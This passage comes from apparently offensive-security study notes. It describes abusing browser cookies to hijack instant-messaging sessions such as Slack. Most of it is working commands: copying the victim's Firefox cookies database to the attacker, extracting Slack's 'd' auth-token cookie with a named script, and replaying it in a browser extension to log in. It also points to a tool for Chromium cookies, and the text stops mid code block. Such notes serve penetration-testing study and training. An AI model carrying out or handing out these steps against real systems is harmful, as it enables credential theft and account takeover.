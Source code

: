     * abusing cookies to get access to IM clients:

        ```ps
        # instant messaging clients like Slack can store cookies in browser

        # firefox saves cookies in a SQLite DB at '%APPDATA%\Mozilla\Firefox\Profiles\<RANDOM>.default-release'
        # copy this SQLite DB
        copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
        # copy this file to attacker
        ```

        ```sh
        # on attacker
        # we can use cookiextractor.py script - https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py
        python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d
        # we have the cookie value for 'd', which Slack uses to store auth token

        # we can use this cookie value using a browser extension like Cookie-Editor
        # with name 'd' and value from above, we can try to log into Slack
        # refresh the browser page if we get a login prompt
        ```

        ```ps
        # for cookie extraction from Chromium-based browsers
        # we can use Invoke-SharpChromium - https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1
